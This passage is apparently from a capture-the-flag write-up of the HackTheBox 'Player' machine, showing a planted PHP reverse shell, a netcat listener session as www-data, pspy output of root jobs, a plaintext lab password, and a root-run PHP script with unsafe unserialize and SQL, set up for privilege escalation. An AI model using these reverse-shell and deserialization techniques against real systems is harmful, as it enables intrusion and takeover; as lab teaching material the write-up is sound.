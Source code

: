 We create a file **shell.php** with a reverse shell. Accesing it `http://dev.player.htb/home/shell/shell.php` and now we got a reverse shell as **www-data**.

## Privilege Escalation

```console
$ rlwrap nc -lvnp 80                
listening on [any] 80 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.145] 49252
Linux player 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:33:43 up 19:57,  0 users,  load average: 0.01, 0.06, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$
```

With `pspy32` we can see root is using `openssh`:

```
2023/01/05 17:36:02 CMD: UID=0    PID=9685   | /root/openssh-7.2p1/sshd -p 6686 -f /root/openssh-7.2p1/sshd_config -D -d                                     
2023/01/05 17:36:07 CMD: UID=0    PID=9688   | sleep 5 
2023/01/05 17:36:07 CMD: UID=0    PID=9687   | /root/openssh-7.2p1/sshd -p 6686 -f /root/openssh-7.2p1/sshd_config -D -d                                     
2023/01/05 17:36:12 CMD: UID=0    PID=9690   | sleep 5 
2023/01/05 17:36:12 CMD: UID=0    PID=9689   | /root/openssh-7.2p1/sshd -p 6686 -f /root/openssh-7.2p1/sshd_config -D -d
. . . <SNIP> . . . 
2023/01/05 17:40:01 CMD: UID=0    PID=9843   | /bin/sh -c /usr/bin/php /var/lib/playbuff/buff.php > /var/lib/playbuff/error.log 
2023/01/05 17:40:01 CMD: UID=0    PID=9845   | /usr/bin/php /var/lib/playbuff/buff.php
```

We can get the **telegen** user again:

```console
www-data@player:/$ su telegen -s /bin/bash
su telegen -s /bin/bash
Password: d-bC|jC!2uepS/w

telegen@player:/$
```

This **buff.php** file has the following contents:

```php
<?php
include("/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php");
class playBuff
{
        public $logFile="/var/log/playbuff/logs.txt";
        public $logData="Updated";

        public function __wakeup()
        {
                file_put_contents(__DIR__."/".$this->logFile,$this->logData);
        }
}
$buff = new playBuff();
$serialbuff = serialize($buff);
$data = file_get_contents("/var/lib/playbuff/merge.log");
if(unserialize($data))
{
        $update = file_get_contents("/var/lib/playbuff/logs.txt");
        $query = mysqli_query($conn, "update stats set status='$update' where id=1");
```